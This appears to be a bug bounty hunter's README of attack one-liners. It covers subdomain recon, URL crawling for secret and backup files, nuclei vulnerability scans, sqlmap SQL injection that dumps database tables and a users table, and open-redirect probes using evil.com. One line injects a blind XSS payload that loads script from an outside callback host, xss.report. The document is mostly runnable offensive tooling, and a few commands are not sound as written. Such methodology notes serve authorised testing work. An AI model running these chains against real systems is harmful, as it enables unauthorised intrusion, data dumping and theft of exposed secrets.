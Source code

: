 <h1>My Bug Bounty Hunting Methodology</h1>

<h1>Recon</h1>


```bash
subfinder -d target.com -all  -recursive > subdomain.txt
```

```bash

cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

```bash

katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
```

```bash

cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

```bash

cat allurls.txt | grep -E "\.js$" >> js.txt
```

```bash

cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/
```

```bash

echo target.com | katana -ps | grep -E "\.js$" | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30
```

```bash

dirsearch  -u https://www.target.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
```

```bash

subfinder -d target.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
```

```bash
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

```bash

python3 corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```


```bash

nuclei  -list subdomains_alive.txt -tags cves,osint,tech
```

```bash

cat allurls.txt | gf lfi | nuclei -tags lfi
```

```bash
cat allurls.txt | gf redirect | openredirex -p /home/vulncrax/openRedirect
```
<h1>Sqli</h1>

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dbs  (Databases)
```

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --tables -D acuart (Dump DB tables )
```

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --columns -T users (Dump Table Columns )
```

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dump -D acuart -T users
```


<h1>SQLi One Linear :</h1>

```bash
cat target.txt | waybackurls | grep "\?" | uro | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
```

```bash
subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
```


<h1>Testing for xss and sqli at the same time :</h1>

```bash
cat subdomains.txt | waybackurls | uro | grep "\?" | httpx -silent > param.txt
```

```bash
sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt

```

```bash
cat param.txt | kxss
```

<h1>Running Nuclei :-</h1>

```bash
nuclei -u https://example.com
```

```bash
nuclei -list urls.txt -t /fuzzing-templates
```

```bash
nuclei -list live-subs.txt -t /root/nuclei-templates/vulnerabilities -t /root/nuclei-templates/cves -t /root/nuclei-templates/exposures -t /root/nuclei-templates/sqli.yaml
```

```bash
nuclei -u https://example.com -w workflows/
```

<h1>Open Redirect:-</h1>

```bash
waybackurls target.com | grep -a -i \=http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep "evil.com" && echo "$host \033[0;31mVulnerable\n" ;done
```

```bash
httpx -l i.txt -path "///evil.com" -status-code -mc 302
```

